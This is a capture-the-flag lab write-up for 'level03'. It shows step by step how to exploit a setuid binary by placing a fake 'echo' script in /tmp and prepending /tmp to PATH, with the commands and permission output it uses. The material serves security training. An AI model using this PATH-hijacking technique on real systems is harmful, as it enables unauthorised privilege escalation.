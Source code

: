 # Level03 : find flag03

## Tutorial 

1. Launching the `level03` binary : it says `Exploit me`
2. Checking the permissions for `level03` binary, `ls -l level03` :  
   - result : `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
   - we can see here the `setuid` and `setgid` are set ! This means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`.
3. Checking available folders where we can write and execute scripts with `ls -l /` :
   - result : `d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp`
   - we can write and execute programs in the `/tmp` folder
4. Writing program in `/tmp/echo`, `cat /tmp/echo` :
   - result : `getflag`
   - permissions (`ls -l /tmp/echo`): `----r-x--- 1 level03 level03 8 Apr 10 08:10 /tmp/echo`
   - these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r` and `x`, then `getflag` is executed with the `uid` of `flag03`
5. Executing `PATH=/tmp:$PATH ~/level03` by passing `/tmp` as file containing binaries
6. get flag for level03 !

## Additional notes and resources 

- Permissions (suid, sgid, sticky bit)
  - https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
  - https://linux.goffinet.org/administration/securite-locale/permissions-linux/
  - https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
- Alias don't execute in scripts by default, need to set the shell as interactive :
  - possible other solution, doesn't work here (check link) : `alias echo=getflag`
  - https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script